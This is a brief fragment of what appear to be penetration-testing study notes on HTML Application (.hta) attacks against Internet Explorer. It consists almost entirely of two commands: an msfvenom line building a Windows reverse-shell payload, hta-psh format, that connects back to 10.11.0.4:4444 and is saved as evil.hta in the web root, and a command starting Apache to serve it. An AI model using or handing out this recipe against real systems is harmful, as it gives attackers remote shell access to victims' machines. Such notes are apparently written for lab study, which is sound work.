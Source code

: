 ## HTML application

.hta instead of html -> will think as html (Only works in internet explorer
1. `sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta`4
2. `sudo service apache2 start`
